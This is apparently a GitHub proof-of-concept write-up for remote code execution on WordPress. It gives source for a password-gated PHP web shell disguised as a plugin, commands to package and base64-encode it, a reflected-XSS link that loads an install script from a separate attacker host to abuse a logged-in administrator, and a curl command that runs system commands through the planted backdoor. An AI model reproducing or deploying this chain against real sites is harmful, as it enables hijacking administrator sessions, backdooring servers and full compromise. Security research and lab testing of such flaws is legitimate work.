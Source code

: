 # [RCE] Install Plugin

## Test Environment

### Web Browsers (20240224)

* [x] Mozilla Firefox Version 123.0 (64-bit)
* [x] Google Chrome Version 122.0.6261.70 (64-bit)
* [x] Microsoft Edge Version 122.0.2365.52 (64-bit)

## Exploitation Steps

1. [create WordPress plugin containing PHP payload] backdoor source code (`WP_PoC.php`)

```
<?php
/**
 * Plugin Name: WP RCE PoC - Install Plugin
 * Version: 1.0.0
 * Author: WP Admin
 * Author URI: https://localhost
 * License: GPL2
 */
if (md5($_GET['pass']) === '098f6bcd4621d373cade4e832627b4f6') { echo passthru($_GET['cmd']); }
?>
```

2. [create WordPress plugin containing PHP payload] create WordPress plugin

```
zip WP_PoC.zip WP_PoC.php
```

3. [create WordPress plugin containing PHP payload] base64-encode generated plugin file (**NOTE**: avoids encoding issues)

```
cat WP_PoC.zip | base64 -w0 > WP_PoC.txt
```

4. victim user (with administrative privileges) logs in

http://192.168.5.10/wp-login.php

5. victim user clicks link

```
http://192.168.5.10/test/rxss.php?q=<script src=http://192.168.5.13/installPluginWP.js></script>
```

6. execute OS command

```
curl -s "http://192.168.5.10/wp-content/plugins/WP_PoC/WP_PoC.php?pass=test&cmd=id" | head -n 1
```

7. [optional] uninstall plugin

*WordPress -> Plugins -> Installed Plugins -> [WP RCE PoC - Install Plugin] Delete -> OK*

## Screenshots

![Image](screenshots/WordPress_-_install_plugin_-_1-1.png)
